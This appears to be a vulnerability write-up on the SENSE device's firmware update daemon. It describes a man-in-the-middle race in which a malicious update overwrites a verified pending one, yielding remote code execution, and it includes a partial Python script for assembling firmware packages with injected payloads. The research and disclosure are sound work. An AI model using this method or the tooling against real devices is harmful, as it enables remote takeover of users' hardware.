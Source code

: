 Attack:
1. SENSE checks for updates, it downloads the new genuine firmware update from the server (version **x**), it verifies successfully the update, it sets it as pending, it checks if there is any pending update, it runs the **fsupgrade** of the pending update that will delay installation, the daemon goes to sleep for 55 minutes.
2. SENSE checks for updates, MITM attacker provides malicious firmware with version **x+1**. SENSE downloads it, verification fails, it checks if there is any pending update, it runs the **fsupgrade** of the pending update that will delay installation, the daemon goes to sleep for 55 minutes.
3. SENSE checks for updates, MITM attacker provides malicious firmware with version **x**. SENSE downloads it and overwrite the genuine update downloaded at *step 1*. Verification fails, but the daemon checks if there is any pending update, it runs the pending update that **Oops** was just overwritten by the malicious update just downloaded. **RCE**.


### Testing setup

To implement the attack I had to first download the binary compressed update file as described. I then used `binwalk -e ` to extract the files and explore the content. Then, I wrote a python script to assemble the binary compressed update file back, by combining official releases of the SENSE with custom payloads. 3 Python scripts with Flask mimic the update server to serve the required JSON to trick the Sense into believing there are new updates and download them. I simulated the MITM by hard-coding my local IP in the `/etc/hosts` file.

**assemble.py** - script used to assemble custom firmware packages

```python
from sys import argv
import hashlib
import os
import struct

def compress(filename):
    os.system('bzip2 ' + filename)
    new_script = open(filename+'.bz2', 'rb')
    return new_script.read()

def calcSHA256(filename):
    sha256_hash = hashlib.sha256()
    with open(filename,"rb") as f:
        for byte_block in iter(lambda: f.read(4096),b""):
            sha256_hash.update(byte_block)
        return sha256_hash.hexdigest()

if len(argv) != 6:
    print argv[0]+" outputfile manifest injected bin ini"
    exit(1)


manifestSHA = calcSHA256(argv[2])
manifest = compress(argv[2])
scriptSHA = calcSHA256(argv[3])
script = compress(argv[3])
binSHA = calcSHA256(argv[4])
bin = compress(argv[4])
iniSHA = calcSHA256(argv[5])
ini = compress(argv[5])

os.system('bzip2 -d ' + argv[2]+'.bz2')
os.system('bzip2 -d ' + argv[3]+'.bz2')
os.system('bzip2 -d ' + argv[4]+'.bz2')
os.system('bzip2 -d ' + argv[5]+'.bz2')

outputfile = open(argv[1], 'wb')
outputfile.write('GUTS2AR1')
outputfile.write(b'\x00\x00\x00\x00')
```